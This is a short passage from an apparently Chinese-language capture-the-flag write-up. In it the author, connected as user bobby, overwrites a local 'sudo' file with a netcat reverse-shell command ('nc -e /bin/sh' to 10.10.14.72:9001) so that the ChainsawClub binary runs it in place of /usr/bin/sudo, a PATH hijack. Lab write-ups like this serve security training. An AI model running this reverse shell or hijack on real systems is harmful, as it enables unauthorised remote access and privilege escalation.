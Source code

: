 ![](img/e470690105d0790ec3022347200643b0.png)

因为我能够以用户 bobby 的身份获得连接，所以我将“sudo”文件的内容编辑为:

```
#!/bin/bashnc -e /bin/sh 10.10.14.72 9001
```

![](img/bbefacabaa574010aa7dc7e5aa6ec707.png)

现在，当我运行 ChainsawClub 二进制文件时，当它调用“sudo”而不是调用/usr/bin/sudo 时，它调用当前目录中的 sudo。

![](img/8592d85422399e12509561bfbec2d444.png)

